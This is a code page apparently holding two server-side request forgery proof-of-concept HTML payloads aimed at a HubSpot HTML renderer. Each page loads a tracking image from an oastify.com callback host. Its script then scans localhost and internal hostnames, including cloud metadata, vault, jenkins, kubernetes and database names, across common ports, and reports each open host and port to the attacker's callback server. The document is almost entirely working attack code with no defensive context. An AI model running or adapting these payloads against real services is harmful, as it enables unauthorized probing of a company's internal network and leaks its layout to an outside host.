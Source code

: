 ## Hubspot SSRF

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SSRF PoC</title>
</head>

<body>
    <h1>Hello</h1>
    <img src="https://d3h4esvh2je58ucwomm7ig844vamygm5.oastify.com/?ItsRenderingHtml">
    <script>
        const ports = [22, 80, 443, 8000, 8080, 3000, 5000];
        const host = "http://localhost";

        ports.forEach(port => {
            fetch(`${host}:${port}`, { mode: "no-cors" })
                .then(() => fetch(`https://99g0ko1d8fk1eqisuis3oce0argi4ds2.oastify.com/?open=${port}`))
                .catch(() => { });
        });

    </script>
</body>

</html>


## Hubspot SSRF 2

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SSRF PoC</title>
</head>

<body>
    <h1>Hello</h1>
    <img src="https://tc9kn84xbznlhalcx2vnrwhkdbj270vp.oastify.com/?ItsRenderingHtml">
    <script>
        const hosts = [
            "localhost",
            "127.0.0.1",
            "host.docker.internal",
            "internal",
            "gateway",
            "metadata.google.internal",
            "metadata.aws.internal",
            "kubernetes.default",
            "vault.internal",
            "jenkins.internal",
            "grafana",
            "prometheus",
            "gitlab",
            "nexus",
            "dev",
            "staging",
            "prod",
            "db",
            "admin"
        ];

        const ports = [80, 443, 8080, 3000, 5000, 8000];

        hosts.forEach(host => {
            ports.forEach(port => {
                fetch(`http://${host}:${port}`, { mode: "no-cors" })
                    .then(() => {
                        fetch(`https://tc9kn84xbznlhalcx2vnrwhkdbj270vp.oastify.com/?open=${host}:${port}`);
                    })
                    .catch(() => { });
            });
        });

    </script>

</body>

</html>